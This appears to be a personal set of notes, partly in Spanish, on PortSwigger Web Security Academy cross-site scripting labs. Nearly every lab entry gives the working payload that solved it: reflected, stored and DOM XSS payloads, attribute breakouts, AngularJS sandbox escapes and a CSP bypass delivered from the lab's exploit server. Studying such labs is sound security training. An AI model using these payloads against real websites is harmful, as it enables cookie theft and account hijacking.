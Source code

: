 https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
## LAB 1

El lab cuenta con una barra de busqueda vulnerable a xss reflected, con el clasico alert podemos inyectar codigo:

```
<script>alert(1)</script>
```

## LAB 2

Hay un XSS Stored en la seccion de comentarios sin proteccion alguna:

```
<script>alert(1)</script>
```

## LAB 3

Al igual que en el primer lab tenemos una barra de busqueda, le mandamos un string aleatorio y lo capturamos con Burp Suite. En el repeater vemos que nuestro string lo carga un img src entonces podemos inyectar el siguiente payload:

```
"><svg onload=alert(1)>
```

## LAB 4

En este lab la etiqueta script no le gusta asique probamos el clasico payload con img:

```
<img src=1 onerror=alert(1)>
```

## LAB 5

Este lab es un XSS basado en DOM, si observamos la url existe un parametro que es returnPath, si lo modificamos podemos obtener el document cookie de la siguiente manera:

```
javascript:alert(document.cookie)
```
## LAB 6

Al escribir un string random en la barra de buscar vemos que se guarda en un parametro value entonces cerrando la comilla e inyectando el siguiente codigo podremos hacerlo:

```
"onmouseover="alert(1)
```



# Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

- Enter a random alphanumeric string into the search box.
- View the page source and observe that your random string is enclosed in an `ng-app` directive.
- Enter the following AngularJS expression in the search box:

`{{$on.constructor('alert(1)')()}}`

# Lab: Reflected XSS with AngularJS sandbox escape without strings


`https://YOUR-LAB-ID.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1`


# Lab: Reflected XSS with AngularJS sandbox escape and CSP

1. Go to the exploit server and paste the following code, replacing `YOUR-LAB-ID` with your lab ID:
    
    `<script> location='https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x'; </script>`
2. Click "Store" and "Deliver exploit to victim".

The exploit uses the `ng-focus` event in AngularJS to create a focus event that bypasses CSP. It also uses `$event`, which is an AngularJS variable that references the event object. The `path` property is specific to Chrome and contains an array of elements that triggered the event. The last element in the array contains the `window` object.

Normally, `|` is a bitwise or operation in JavaScript, but in AngularJS it indicates a filter operation, in this case the `orderBy` filter. The colon signifies an argument that is being sent to the filter. In the argument, instead of calling the `alert` function directly, we assign it to the variable `z`. The function will only be called when the `orderBy` operation reaches the `window` object in the `$event.path` array. This means it can be called in the scope of the window without an explicit reference to the `window` object, effectively bypassing AngularJS's `window` check.

